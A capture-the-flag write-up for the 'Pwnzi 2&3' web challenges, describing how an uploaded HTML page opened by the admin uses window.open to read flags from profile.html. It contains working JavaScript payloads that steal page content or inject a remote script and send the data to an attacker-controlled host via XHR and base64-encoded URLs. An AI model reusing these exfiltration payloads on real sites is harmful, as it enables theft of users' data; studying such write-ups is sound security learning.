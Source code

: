 # Pwnzi 2&3 (web, 117+2p & 127+2p, 42 & 37 solved)

## Overview

We start off where we left the part 1 of the task.
We managed to buy all the file upload perks and now we focus on the `report` to admin, file upload and getting flag 2 and 3.
We're putting both here because we used exactly the same, unintended, solution to get both flags.

Quick recap:

- We can upload any file, incluing html with javascript.
- Files are uploaded on the same domain, so we have the same origin.
- We can report our uploaded files to the admin and he will open them.
- Flags can only be seen from `profile.html` referer, and while at least flag 2 is loaded on profile page, flag 3 is not.
- Any page, including `profile.html` is protected against loading inside an Iframe

## Unexpected shortcoming of admin's browser

We spent some time trying to figure out how we can spoof the referer from JS script loaded on page we report to admin, or bypass the iframe limitation, but with no luck.

Then we found: https://lcamtuf.coredump.cx/switch/

The idea behind this is trivial: if you open a new page via `window.open()` then you have full control over this page and it's content.
The only issue is that it's a popup.
We initially immediately assumed it won't work, because popup will get blocked.
It's exactly what happened for us when we did a sanity check.

However, just to be thorough, we tested this on the admin, and it worked just fine!

## Stealing flag 2

The idea is pretty simple, we can just report page:

```html
<html>
<script>
var w = window.open("https://pwnzi.ctf.spamandhex.com/profile.html");
setTimeout(xakep, 1000);

function xakep() {
    var flag = w.document.getElementsByClassName("form-control")[4].innerHTML
    let xhr = new XMLHttpRequest();
    xhr.open("GET", "https://our.page/?"+btoa(flag));
    xhr.send();
}
</script>
</html>
```

We just open the profile page, and once it's loaded we steal the content of the flag2 and send it back to host we control.
This way we get: `SaF{service_workers_are_useless_they_say}`

Judging by the flag, this was not the intended way...

## Stealing flag 3

It should be obvious now, that with the level of control we have, we can steal flag 3 using the same approach.
The only trick is that we need to modify the DOM of `profile.html` once it's open, and add a script loading flag 3 for us:

```html
<html>
<script>
var w = window.open("https://pwnzi.ctf.spamandhex.com/profile.html");
setTimeout(xakep, 1000);

function xakep() {
    body = w.document.querySelector("body");
    let s = document.createElement("script");
    s.src = "https://our.host/payload.js";
    body.appendChild(s);
}
</script>
</html>
```

And the payload is:

```js
let xhr = new XMLHttpRequest();
xhr.onreadystatechange = function(e) {
    document.location.href = "https://our.host/?" + btoa(xhr.responseText);
}
xhr.open("GET", "/flag3");
xhr.send();
```

This way we get back: `SaF{I never lose, I either win or I learn}`
